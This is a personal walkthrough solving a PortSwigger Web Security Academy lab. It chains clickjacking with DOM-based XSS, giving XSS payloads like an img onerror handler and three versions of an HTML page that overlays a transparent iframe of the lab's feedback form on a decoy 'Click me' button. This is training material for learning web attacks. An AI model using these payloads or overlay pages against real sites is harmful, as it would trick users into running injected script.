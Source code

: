 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## his lab contains an [XSS](https://portswigger.net/web-security/cross-site-scripting) vulnerability that is triggered by a click. Construct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that fools the user into clicking the "Click me" button to call the `print()` function.

### Note: DOM stored attack

eg:1
`<img src=1 onerror=alert(1)>`
eg:2
`<><img src=1 onerror=alert(1)>`

change to print()
`<img src=1 onerror=print()>`

test with alert(1) once it will pop up alert then change to print() lab solving
test the below script into w3school

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 7000px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback"
></iframe>
```

submit form and intercept into burpsute change request method

```javascript
GET /feedback/submit?csrf=S5g89CgcTy1KMizUyEFm2gld7i1fANSY&name=hello&email=hello%40pk.com&subject=fhh&message=clkjcl
```

---

### step 1

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 7000px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback?name=hello&email=hello%40pk.com&subject=fhh&message=clkjcl"
></iframe>
```

### step2

`set name=<><img src=1 onerror=print()>`

### step3

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 795px;
    left: 68px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0a0500fc033ea678803f121800ee00e6.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hello@0pk.com&subject=fhh&message=clkjcl"
></iframe>
```
